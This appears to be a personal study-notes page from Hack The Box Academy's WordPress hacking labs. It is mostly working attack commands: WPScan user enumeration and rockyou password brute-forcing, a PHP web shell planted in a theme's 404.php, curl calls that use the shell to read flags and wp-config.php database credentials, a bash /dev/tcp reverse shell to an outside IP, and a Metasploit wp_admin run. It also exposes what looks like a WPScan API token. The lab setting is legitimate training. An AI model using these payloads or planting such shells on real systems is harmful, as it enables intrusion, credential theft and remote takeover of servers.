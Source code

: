 # Hacking WordPress with Hack The Box

- **HTB Course**: [Hacking WordPress - HTB Academy](https://academy.hackthebox.com/course/preview/hacking-wordpress)
- **Video Series**: [WordPress Hacking Playlist on YouTube](https://www.youtube.com/watch?v=b3Q9htmHB20&list=PLX7vPiTmryzE7JAKJUyIVltANMiEJZ5U2&index=3&pp=iAQB)
- **Watch "HackTheBox - MetaTwo"**: [HackTheBox - MetaTwo Walkthrough](https://youtu.be/Alx5KQWq7ZM?si=GsnzKNzVilcwlMUt)

---

## Directory Indexing with WPScan
### User Enumeration
```bash
wpscan --url http://94.237.59.180:59261 -e u
```

API Token Authentication:
```bash
wpscan --url http://94.237.59.180:59261 --api-token VyjB9rxyQz0cFqLA14dKJ8aLwbZeNEleBazHsRS1J8o
```

Brute Force Attack:
```bash
wpscan --url http://94.237.59.180:59261 --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```

Example Output:
```bash
[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - admin / sunshine1

_______________________________

Valid Combinations Found:
 | Username: roger, Password: lizard
_______________________________
```

### Exploiting Vulnerabilities in Themes

Injecting a Web Shell into a Theme:

1. Select a non-critical file, e.g., 404.php.
   
2. Replace file content with the following.

```bash
<?php
system($_GET['cmd']);
?>
```

3. Access the shell via:
```bash
http://94.237.59.180:59261/wp-content/themes/twentyseventeen/404.php?cmd=id
```

Validation of Remote Code Execution (RCE):
```bash
curl -X GET "http://94.237.59.180:59261/wp-content/themes/twentyseventeen/404.php?cmd=id"
```

Check Files
```bash
curl -X GET "http://94.237.61.84:42206/wp-content/themes/twentyseventeen/404.php?cmd=ls"
curl -X GET "http://94.237.61.84:42206/wp-content/themes/twentyseventeen/404.php?cmd=ls+/"
```

Retrieve Flag
```bash
curl -X GET "http://94.237.61.84:42206/wp-content/themes/twentyseventeen/404.php?cmd=cat+/home/wp-user/flag.txt"
```

Extract WordPress Configuration
```bash
curl -X GET "http://94.237.61.84:42206/wp-content/themes/twentyseventeen/404.php?cmd=cat+/usr/src/wordpress/wp-config.php"
```

Example Output:
```bash
/** MySQL database username */
define( 'DB_USER', 'wp-admin');

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress');
```

### Reverse Shell

Listener Setup
```bash
nc -lvnp 1234
```

Execute Reverse Shell on Target Server
```bash
curl -X GET "http://94.237.61.84:42206/wp-content/themes/twentyseventeen/404.php?cmd=bash%20-i%20%3E%26%20/dev/tcp/10.10.73.57/1234%200%3E%261"
```

Troubleshooting Metasploit

Search for exploits:
```bash
searchsploit wordpress 5.1.6
```

Use Metasploit module:
```bash
search wp_admin
use 0
set rhosts http://94.237.57.27:35641/
set username admin
set password sunshine1
set lhost 10.10.147.84
run
```

```bash
(Note: Metasploit payloads may fail in some cases. Explore alternate exploits or manual approaches.)
```
